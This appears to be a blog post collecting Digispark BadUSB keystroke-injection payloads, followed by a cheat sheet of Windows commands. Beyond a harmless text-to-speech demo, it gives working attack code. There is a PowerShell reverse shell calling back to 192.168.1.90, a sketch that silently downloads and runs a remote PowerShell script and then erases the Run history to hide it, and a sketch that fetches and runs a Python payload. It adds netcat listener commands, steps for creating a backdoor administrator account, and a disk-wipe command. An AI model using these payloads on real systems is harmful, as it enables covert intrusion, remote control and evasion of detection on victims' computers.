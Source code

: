 ```yaml
---
title: "Payloads digispark"
author: Ludovic COULON
date: 2020-04-12
hero: ./images/hero.jpeg
excerpt: "Payloads digispark"
---
```


## Payloads generator for Windows/Linux/Mac

[Duck ToolKit](https://ducktoolkit.com/payload/windows#)

[CedArctic/DigiSpark-Scripts](https://github.com/CedArctic/DigiSpark-Scripts)

[Introduction](https://xapax.gitbooks.io/security/)

[thewhiteh4t/flashsploit](https://github.com/thewhiteh4t/flashsploit)

## Convert DuckyScripts > Digispark

[Duckuino](https://d4n5h.github.io/Duckuino/)

## All the payloads that just works 👍

**Say something on command line**

# Tell something with command line interface 🎭

```arduino
#include "DigiKeyboard.h"
void setup() {
	DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("powershell");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(3000);
  DigiKeyboard.print("Add-Type -AssemblyName System.speech");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("$speak = New-Object System.Speech.Synthesis.SpeechSynthesizer");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("$speak.Speak(\"hello from digispark.\")");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_N);
}

void loop() {
}
```

**Create administrator account**
**Reverse shell windows**

# Reverse shell on windows

## First, on the host attacker machine create a php server and upload the payload

```php
# Start the php server
sudo php -S 0.0.0.0:80 -t /Users/zeeph/Desktop/
```

```powershell
# Create a file called payload.ps1
$client=New-Object System.Net.Sockets.TCPClient('192.168.1.90',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
$sm=(New-Object Net.Sockets.TCPClient('192.168.1.90',1234)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

<div className="Image__Small">
  <img src="https://i.imgur.com/QMC7DVO.png" alt="blog_image" />
</div>

```bash
# Listen all the tcp connexion on port 1234
ncat -nvlp [PORT]

# Shell spawner linux only !
python -c 'import pty; pty.spawn("/bin/sh")'
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/DumRqur.png" alt="blog_image" />
</div>

```arduino
#include "DigiKeyboard.h"

void setup() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.println("powershell -windowstyle hidden -nop \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.90/payload.ps1');\"");
  DigiKeyboard.delay(1500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.println("powershell \"Remove-ItemProperty -Path 'HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\RunMRU' -Name '*' -ErrorAction SilentlyContinue\"");
}

void loop() {
}
```

**Python script with digispark ⚆**

```arduino
#include "DigiKeyboard.h"
void setup() {
  DigiKeyboard.delay(5000);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(300);
  DigiKeyboard.print("powershell -windowstyle hidden");
  DigiKeyboard.sendKeyStroke(KEY_ENTER, MOD_CONTROL_LEFT + MOD_SHIFT_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("$source = \"http://192.168.1.90/payload.py\"; $destination = \"C:/Documents\"; Invoke-WebRequest $source -OutFile $destination;");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000);
  DigiKeyboard.print("python C:/Documents/payload.py");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
void loop() {
}
```

## Useful commands

**Windows commands**

# **CMD - Windows commands**

The equivalent to the Linux command `;` as in

```
echo "command 1" ; echo "command 2"
```

is

```
dir & whoami
```

### **Dealing with files and stuff**

**Delete file**

```
del
```

**Create folder/directory**

```
md folderName
```

**Show hidden files**

```
dir /A
```

**Print out file content, like cat**

```
type file.txt
```

**grep files**

```
findstr file.txt
```

### **Network**

**Show network information**

```bash
netstat -an
```

**Show network adapter info**

```bash
ipconfig
```

**Ping another machine**

```bash
ping 192.168.1.101
```

**Traceroute**

```bash
tracert
```

### **Processes**

**List processes**

```bash
tasklist
```

**Kill a process**

```bash
taskkill /PID 1532 /F
```

### **Users**

```
net users

# Add user
net user hacker my_password /add
net localgroup Administrator hacker /add

# Check if you are part of a domain
net localgroup /domain

# List all users in a domain
net users /domain
```

### **Other**

**Shutdown**

```
# Shutdown now
shutdown /s /t 0

# Restart
shutdown /r /t 0
```

**ciper - Clear data/shred**

```
Shreds the whole machine
ciper /w:C:\
```
